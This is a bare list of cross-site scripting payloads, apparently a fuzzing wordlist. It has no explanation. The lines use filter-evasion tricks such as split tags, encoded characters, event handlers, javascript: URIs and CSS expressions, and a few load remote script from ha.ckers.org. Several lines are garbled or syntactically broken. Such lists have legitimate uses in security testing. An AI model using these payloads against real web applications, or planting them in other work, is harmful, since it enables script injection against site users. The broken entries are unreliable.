 !--" /><script>alert('xss');</script>
<scrscriptipt>alert(1)</scrscriptipt>
<// style=x:expression\28write(1)\29>
<script src="#">{alert(1)}</script>;1
echo('IPT>alert("XSS")</SCRIPT>'); ?>
x[{}].valueOf()(x[/\\/]+(/(1)/)[-1]) 
and:try{1in to}catch(møre){alert(!1)}
a='alert';eval(<{a}>{a}</{a}>+'(a)') 
({strange:'stuff man'}).* = alert(1);
P=function(a,b){return Math.pow(a,b)}
Function.call(undefined,'alert(1)')()
<textarea autofocus onfocus=alert(1)>
<IMG SRC="jav ascript:alert('XSS');">
xss:ex/*XSS*/pression(alert("XSS"))'>
<style>*[{}@import'test.css?]</style>X
" onfocus=alert(document.domain) "> <"
exp/*<XSS STYLE='no\xss:noxss("*//*");
<IMG SRC=JaVaScRiPt:alert("XSS<WBR>")>
<SCRIPT SRC=http://ha.ckers.org/xss.js
<A HREF="http://66.102.7.147/">XSS</A>
<IMG LOWSRC="javascript:alert('XSS')">
33) <script>+-+-1-+-+alert(1)</script>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
12) <iframe/src \/\/onload = prompt(1)
<IMG DYNSRC="javascript:alert('XSS')">
<img src=foo.png onerror=alert(\1\) \>
<img src=foo.png onerror=alert(/1/) />
"></iframe><script>alert(123)</script>
({}).valueOf.call(null).alert('lose');
&#21477;=/e/[&#54280;]+/val/[&#54280;]
top/**/['\x61\x6c\x65\x72\x74']/**/(1)
o={"b"getter:Function('alert(1)')},o.b
'></select><script>alert(123)</script>
<iframe "onload=alert(/XSS/)></iframe> 
35) <script ~~~>alert(0%0)</script ~~~>
<IMG DYNSRC="javascript:alert('XSS');">
<;IMG SRC=";javascript:alert(';XSS';)";
<;SCRIPT SRC=http://ha.ckers.org/xss.js
<br size=\"&{alert(&#039;XSS&#039;)}\">
<img src=&{document.vulnerable=true;};>
<br SIZE="&{document.vulnerable=true}">
<body ONLOAD=document.vulnerable=true;>
<IMG"""><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC="  javascript:alert('XSS');">
<IMG LOWSRC="javascript:alert('XSS');">
with(this)watch('XSS',alert),XSS=false 
\u5003_=/a/[\u5001_]+/lert(1)/[\u5001_]
\u0063\u003d/c/\u005b\u002d\u0031\u005d
<image src="" onerror="alert(/XSS/)" />
<input onblur=focus() autofocus><input>
<b><script<b></b><alert(1)</script </b>
'"></title><script>alert(1111)</script>
13) <iframe/onreadystatechange=alert(1)
<IMG SRC="jav   ascript:alert('XSS');">
<SCRIPT>document.write("XSS");</SCRIPT>
<IMG LOWSRC=\"javascript:alert('XSS')\">